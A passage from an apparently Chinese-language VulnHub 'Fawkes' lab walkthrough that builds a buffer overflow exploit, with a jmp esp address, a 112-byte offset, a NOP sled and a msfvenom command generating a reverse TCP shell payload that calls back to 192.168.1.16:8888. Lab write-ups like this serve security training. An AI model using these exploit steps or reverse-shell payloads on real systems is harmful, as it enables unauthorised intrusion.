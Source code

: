 
点击`find`，记下`jmp esp`的内存地址，`0x08049d55`

![](D:\stu\vulnhub\harrypotter靶场\pic-fawkes\23.jpg)



`jmp esp`是一条汇编指令。`jmp`是 “jump” 的缩写，意思是跳转。`esp`是栈指针寄存器（Extended Stack Pointer）。这条指令的作用是使程序的执行流程跳转到`esp`寄存器所指向的内存地址。



## 制造反弹shell

已知偏移量为`112`，`ESP`内存地址为`0x08049d55`，那么只需要编造16进制的`payload`进行反弹`shell`，这里的靶机为小端序，内存地址需要颠倒`\x55\x9d\x04\x08`



```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.16 LPORT=8888 -b "\x00" -f python
```



![](D:\stu\vulnhub\harrypotter靶场\pic-fawkes\24.jpg)





把上面生成的写入到`python`文件中，但是这里只是生成`ESP`所要执行的指令，还需要和前面的溢出配合，不然无法正确的使`EIP`跳转正确



![](D:\stu\vulnhub\harrypotter靶场\pic-fawkes\25.jpg)



在`payload`中加了之前并没有的`'\x90'*32`是为了防止恶意代码离的太近

![](D:\stu\vulnhub\harrypotter靶场\pic-fawkes\26.jpg)





然后这时候，运行可执行文件，然后另起终端开启监听`8888`端口，与上面的反弹`shell`端口一致

然后执行`python`脚本



在本机上运行的服务进行而此时，成功

![](D:\stu\vulnhub\harrypotter靶场\pic-fawkes\27.jpg)





那么修改`payload`为靶机地址和端口，然后测试

![](D:\stu\vulnhub\harrypotter靶场\pic-fawkes\28.jpg)


